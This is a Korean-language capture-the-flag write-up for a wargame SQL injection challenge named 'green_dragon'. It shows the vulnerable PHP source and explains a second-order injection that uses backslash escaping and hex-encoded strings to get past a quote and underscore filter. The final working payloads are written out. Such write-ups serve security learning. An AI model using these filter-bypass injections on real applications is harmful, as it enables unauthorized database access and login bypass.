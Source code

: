 # green_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

## 2. Condition
- 1차적으로 get 파라미터 `id`와 `pw`의 값을 받고 쿼리를 보낸다.('query :')   
- 2차적으로 위에서 나온 결과의 `id`와 `pw`를 다시 쿼리로 보낸다.('query2 :')   
- 두 과정에서 모두 `prob _ . ' "`를 필터링한다.   
- 최종적으로 마지막 쿼리의 결과가 `admin`이라면 문제가 해결된다.   

## 3. Solution
위 에서 말했듯이, 두 부분으로 나누어 생각해야 한다.   
최종단계 부터 거꾸로 거슬러 올라가면 쉽게 해결된다.   

------
### 1. 쿼리의 결과 `id`값이 `admin`이어야 한다   
>    `' "`가 필터링 되므로, `\`문자를 통해 이스케이핑 시키는 방법을 이용한다.   
    그리고 문자 'admin'은 hex값을 통해 우회하였다.

변수명 | 값
---|---
`id` | \
`pw` | union select `0x61646d696e`


다음 단계로 넘어가보자.    


------
### 2. 쿼리의 결과 `id`값이 `\`, `pw`값이 `union select 0x61646d696e`이어야 한다.   
>    마찬가지로, `\`를 이용한 이스케이핑을 한다.   
    1번 과정에서 필요한 값과 구문들을 모두 hex값으로 변환하여 보내었다.   
>
>    `\` > 0x5c
    `  union select 0x61646d696e#` > 0x20756e696f6e2073656c6563742030783631363436643639366523    

변수명 | 값
---|---
`id` | \
`pw` | %20union%20select%20`0x5c`,`0x20756e696f6e2073656c6563742030783631363436643639366523`%23


성공적으로 문제가 해결된다.
